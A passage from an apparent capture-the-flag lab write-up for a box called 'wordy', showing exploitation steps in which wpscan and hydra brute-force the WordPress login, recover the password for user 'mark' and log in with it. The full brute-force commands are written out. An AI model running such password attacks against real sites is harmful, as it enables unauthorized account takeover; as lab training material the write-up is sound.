 2\. We run a Wordpress password bruteforce scan and find a hit for user `mark`:  
``` {.python .numberLines}
wpscan --url http://wordy/ --wordlist ./passwords.txt → helpdesk01

```

![writeup.exploitation.steps.2.1](./screenshot04.png)  

3\. Running a Wordpress password bruteforce scan using `hydra` gave similar results:  
``` {.python .numberLines}
hydra -l mark -P passwords.txt 192.168.92.170 http-post-form "/wp-login.php:log=mark&pwd=^PASS^:ERROR" → helpdesk01

```

![writeup.exploitation.steps.3.1](./screenshot02.png)  

4\. We use these credentials and login as user `mark`:  

![writeup.exploitation.steps.4.1](./screenshot03.png)  
